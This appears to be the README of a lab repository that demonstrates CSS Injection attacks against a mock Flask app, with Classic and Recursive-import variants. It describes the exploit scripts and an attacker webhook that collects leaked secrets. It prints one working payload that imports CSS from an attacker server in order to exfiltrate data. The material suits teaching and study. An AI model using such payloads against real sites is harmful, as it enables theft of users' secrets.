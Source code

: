 # c5517n
CSS Injection.

## Requirements
```
Click==7.0
Flask==1.1.1
itsdangerous==1.1.0
Jinja2==2.10.3
MarkupSafe==1.1.1
pyperclip==1.7.0
Werkzeug==0.16.0
```

```sh
pip install -r requirements.txt
```

## Classic
### Overview
An example of a classical CSS Injection attack.
The attacker needs to have the user POST the attack vector every time.


### Usage
1. Run `attacker/server.py` and `user/server.py`.
1. Run `attacker/exploit.py`.
1. Post the attack vector generated by `attacker/exploit.py` to `0.0.0.0:8080`, the leaked secret will be displayed on the console of `attacker/server.py`. 
1. Enter the leaked secret into `attacker/exploit.py` and continue the attack.
1. Loop...

### Files
- `user/server.py`: Mock web application that has CSS Injection vulnerability.
- `attacker/exploit.py`: Generates a CSS Injection attack vector and copies it to the clipboard.
- `attacker/server.py`: Webhook to collect secret.

## Recursive
### Overview
An example of CSS Injection using Recursive Import technique.

### Usage
1. Run `attacker/server.py` and `user/server.py`.
1. Post the attack vector: `<style>@import url('http://0.0.0.0:8081/css/0.css')</style>`.
1. Leakage continues recursively due to CSS import

### Files
- `user/server.py`: Mock web application that has CSS Injection vulnerability.
- `attacker/server.py`: Webhook to collect secret.
- `attacker/templates/tmpl.jinja2`: Attack vector(CSS) template.

### Reference
[m---/onsen](https://github.com/m---/onsen)